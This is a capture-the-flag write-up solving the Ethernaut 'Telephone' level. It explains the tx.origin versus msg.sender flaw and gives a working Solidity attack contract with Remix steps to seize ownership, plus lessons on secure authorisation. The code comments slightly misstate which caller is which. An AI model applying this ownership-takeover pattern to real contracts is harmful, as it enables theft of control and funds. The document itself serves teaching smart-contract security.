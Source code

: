 # Level 4: Telephone

## Challenge Overview

The `Telephone` challenge highlights the difference between `tx.origin` and `msg.sender`.  
The goal is to become the contract’s owner by exploiting this difference.

## Goal

- **Call the `changeOwner` function through an intermediate contract.**

## Solution

The `changeOwner` function has the following condition:

```solidity
require(tx.origin != msg.sender);
```

To bypass this:

### 1. Deploy an intermediate attack contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract TelephoneAttack {
    ITelephone public telephone;

    // Save the victim’s address on deploy
    constructor(address _victim) {
        telephone = ITelephone(_victim);
    }

    // Call this from your wallet
    function attack() external {
        // msg.sender here is this contract,
        // tx.origin is your EOA, so the `if` check passes
        telephone.changeOwner(msg.sender);
    }
}
```

### 2. Steps to solve

1. **Deploy `TelephoneAttack` in Remix** (Injected Web3 to use Sepolia)
   - Paste the Telephone level’s contract address as the constructor argument.

2. **In Remix’s Deployed panel**, you’ll see two buttons:
   - `telephone()` (blue) — returns the stored target address  
   - `attack()` (orange) — invokes your exploit

3. **Click `attack()`** (confirm in MetaMask).

4. **Back in Ethernaut’s console, check**:

```javascript
await contract.owner()  // should now equal your wallet address
```

---

## Lessons Learned

- Avoid using `tx.origin` for authorization, as it can be manipulated.
- Use `msg.sender` to validate the immediate caller.
